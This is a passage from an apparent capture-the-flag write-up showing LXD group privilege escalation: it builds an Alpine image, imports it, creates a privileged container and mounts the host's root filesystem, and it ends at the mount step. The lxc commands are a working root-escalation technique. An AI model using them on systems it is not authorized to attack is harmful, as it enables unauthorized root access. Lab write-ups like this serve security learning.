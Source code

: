 ```
A member of the local "lxd" group can instantly escalate the privileges to root on the host operating system.
This is irrespective of whether that user has been granted sudo rights and does not require them to enter their password.
The vulnerability exists even with the LXD snap package.

LXD is a root process that carries out actions for anyone with write access to the LXD UNIX socket.
It often does not attempt to match the privileges of the calling user. There are multiple methods to exploit this.

One of them is to use the LXD API to mount the host’s root filesystem into a container which is going to use in this post.
This gives a low-privilege user root access to the host filesystem. 
```

we first **clone the** `lxd-alpine-builder` **repository** and **build the alpine image** with the `build-alpine` **script** to get the `.tar.gz` files below:

![](/assets/Brainfuck/building-alpine.jpg)

And we **transfer one over to the remote** `/tmp` **folder**

![](/assets/Brainfuck/transfer-alpine.jpg)

***To escalate our privileges,*** we:

1. Will first **import the image** and give it a suitable alias of `killerimage`
```bash
lxc image import alpine-v3.16-x86_64-20220816_1459.tar.gz --alias killerimage
```
2. **Verify that the import was a success**
```bash
lxc image list
```
3. Then **initialize the image** and **create a container** with the `security.privileged` option set to `true`
```bash
lxc init killerimage brainfucked -c security.privileged=true
```
4. **And proceed to mount the host's root filesystem** into the `/mnt/root` directory **within the container**
```bash
lxc config device add brainfucked mydevice disk source=/ path=/mnt/root recursive=true
```